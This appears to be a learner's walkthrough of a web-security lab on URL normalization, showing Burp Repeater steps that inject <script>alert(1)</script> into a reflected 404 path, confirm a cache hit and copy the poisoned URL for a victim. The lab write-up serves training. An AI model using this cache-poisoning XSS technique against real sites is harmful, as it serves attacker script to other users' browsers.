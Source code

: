 
![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604213727.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604215004.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604220019.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604220314.png)

### URL normalization
```bash

# This lab contains an XSS vulnerability that is not directly exploitable due to browser URL-encoding.

# To solve the lab, take advantage of the cache's normalization process to exploit this vulnerability. Find the XSS vulnerability and inject a payload that will execute alert(1) in the victim's browser. Then, deliver the malicious URL to the victim. 

Refresh the page
Go to: HTTP history
Find:

GET / HTTP/1.1

Send to repeater
Change:

GET / HTTP/1.1

To

GET /checkcheck HTTP/1.1

Response:

HTTP/1.1 404 Not Found

<p>Not Found: /checkcheck</p>

Change:

GET /checkcheck HTTP/1.1

To

GET /checkcheck<script>alert(1)</script> HTTP/1.1

Response:

HTTP/1.1 404 Not Found

<p>Not Found: /checkcheck<script>alert(1)</script></p>

Right-click response -> Show response in browser -> copy
XXS is achieved

Refresh the cache and ensure response contains:

X-Cache: hit

Right-click response -> Copy URL

```